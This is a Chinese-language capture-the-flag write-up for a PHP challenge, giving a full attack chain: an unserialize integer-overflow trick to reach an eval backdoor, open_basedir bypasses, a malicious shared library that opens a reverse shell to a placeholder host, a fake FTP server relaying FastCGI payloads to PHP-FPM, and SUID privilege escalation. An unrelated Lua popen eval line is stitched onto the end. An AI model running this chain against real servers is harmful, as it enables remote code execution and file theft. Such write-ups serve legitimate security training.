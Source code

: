 ```php
user.php:
<?php
class User{
	public $count;
}
?>

add_api.php:
<?php
include "user.php";
if($user=unserialize($_COOKIE["data"])){
	$count[++$user->count]=1;
	if($count[]=1){
		$user->count+=1;
		setcookie("data",serialize($user));
	}else{
		eval($_GET["backdoor"]);
	}
}else{
	$user=new User;
	$user->count=1;
	setcookie("data",serialize($user));
}
?>
```

以上为题目源码，其中`if($count[]=1)`是判断1是否能追加到$count数组最后一个中

考虑到只有php数组溢出才能让数组无法追加



**数组溢出**

> 索引数组最大下标等于最大int数，对其追加会导致整型数溢出，进而引起追加失败

即32位最大是231-1，64位是263-1

也就是2147483647与9223372036854775807

```php
<?php
class User{
	public $count;
}
$a=new User();
$a->count=9223372036854775806;
echo urlencode(serialize($a));
?>
data=O%3A4%3A%22User%22%3A1%3A%7Bs%3A5%3A%22count%22%3Bi%3A9223372036854775806%3B%7D
```



**open_basedir绕过**

用phpinfo()成功验证绕过，但是无法直接命令执行，查看phpinfo

```
disable_functions	中有system、passthru、exec、shell等一系列执行函数

open_basedir	/var/www/html	/var/www/html  用于指定基于目录的访问限制
```

先用glob://伪协议（查找匹配的文件路径模式）绕过：

```
basckdoor=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```

得到flag在根目录下，现在需要绕过open_basedir读取文件

```
mkdir("c");
chdir("c");
mkdir("d");
chdir("d");
chdir("..");
chdir("..");
symlink("c/d","tmplink");
symlink("tmplink/../../../../../../ctfshowflag","exploit");
unlink("tmplink");
mkdir("tmplink");
echo file_get_contents("exploit");

mkdir("s");
chdir('s');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
echo file_get_contents("etc/passwd");
```



/proc/self/cmdline内容为

```
php-fpm: pool www 
```

/proc/self/maps内容为

```
7fc77dffe000-7fc77dfff000 r--p 00001000 fc:11 569495661                  /usr/local/lib/php/extensions/no-debug-non-zts-20190902/easy_bypass.so
7fc77dfff000-7fc77e000000 rw-p 00002000 fc:11 569495661                  /usr/local/lib/php/extensions/no-debug-non-zts-20190902/easy_bypass.so
```

/usr/local/etc/php-fpm.d/www.conf内容为

```
; The address on which to accept FastCGI requests.
; Valid syntaxes are:
;   'ip.add.re.ss:port'    - to listen on a TCP socket to a specific IPv4 address on
;                            a specific port;
;   '[ip:6:addr:ess]:port' - to listen on a TCP socket to a specific IPv6 address on
;                            a specific port;
;   'port'                 - to listen on a TCP socket to all addresses
;                            (IPv6 and IPv4-mapped) on a specific port;
;   '/path/to/unix/socket' - to listen on a unix socket.
; Note: This value is mandatory.
listen = 127.0.0.1:9001
```

知道了php-fpm监听127.0.0.1:9001



**disable_functions绕过（PHP-fpm攻击）**

编辑一个扩展so文件

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/x.x.x.x/xxxx 0>&1'");
}
```

编译为so文件（一种共享库文件，也被称为动态链接库或共享对象文件，可以包含编译后的可执行代码，通常包括函数和数据，可以被多个程序共享和重复使用）

```
gcc hpdoger.c -fPIC -shared -o hpdoger.so
```

将hpdoger.so上传到/tmp/目录下



在自己的服务器上用python来伪造ftp服务

```php
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 10023))#伪造ftp的端口
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

同时用`nc -lvp xxxx`（这里端口为上面恶意so文件反弹shell的端口）来监听



然后用一个php脚本[Personal_Notes/resources/fpm.php at main · lightpig7/Personal_Notes · GitHub](https://github.com/lightpig7/Personal_Notes/blob/main/resources/fpm.php)生成data（其实就是伪造fastcgi协议发送给PHP-FPM，将`extension`设置为`hpdoger.so`，用于扩展PHP的功能，指示PHP-FPM加载名为`hpdoger.so`的扩展，即我们的恶意文件。还修改了PHP的配置和行为，例如令disable_functions为空等等，但是这些配置选项将在 FastCGI 应用程序执行当前请求时生效，但不会永久更改 PHP 的全局配置）



然后传参用file_put_contents()函数来使服务器进行ftp请求

```
add_api.php?backdoor=phpinfo();file_put_contents($_GET[%27file%27],$_GET[%27data%27]);&file=ftp://aaa@x.xx.xx.x:x/1&data=%01%01%00%0

这里的ftp端口为服务器上伪造ftp的端口
```



**suid提权**

```
find / -perm -u=s -type f 2>/dev/null 先找到suid权限的程序
```

```
发现/usr/local/bin/php有suid权限

然后
php -a

然后mkdir('d');chdir('d');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(file_get_contents('/flag'));
```



参考博客：[[蓝帽杯 2021\]One Pointer PHP_L1s4的博客-CSDN博客](https://blog.csdn.net/baidu_39504221/article/details/116720875)

​					[php绕过open_basedir_php5全版本绕过open_basedir读文件脚本-CSDN博客](https://blog.csdn.net/weixin_54648419/article/details/123683025)

		eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0




